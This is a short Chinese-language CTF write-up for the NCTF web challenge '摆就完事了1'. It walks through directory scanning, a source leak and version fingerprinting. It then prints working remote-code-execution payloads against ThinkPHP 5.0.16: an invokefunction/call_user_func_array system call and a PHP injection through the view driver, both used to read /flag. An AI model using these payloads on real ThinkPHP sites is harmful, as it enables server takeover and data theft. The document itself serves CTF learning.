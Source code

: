NCTF-摆就完事了1 writeup

首次访问题目环境显示403 Forbidden
![web-1.1](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.1.png)

先上dirsearch扫一波目录，看看有啥东西：

![web-1.2](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.2.png)


发现有源码的压缩包，（还有个DS_Store文件泄漏，不过这里都有源码了。。），下载下来看看：

![web-1.3](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.3.png)

tp的框架，emm,先看下版本，直接添加路径致报错查看版本号

![web-1.4](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.4.png)

tp5.0.16,这个版本的tp有rce的nday,


尝试添加默认路由

`/public/index.php/index/index/index?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>`

`/public/index.php?s=index|think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=cat${IFS}/flag`

![web-1.5](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.5.png)

查看flag:

`<?php%20system("cat /flag");?>` `cat${IFS}/flag`

![web-1.6](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.6.png)

![web-1.7](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.7.png)
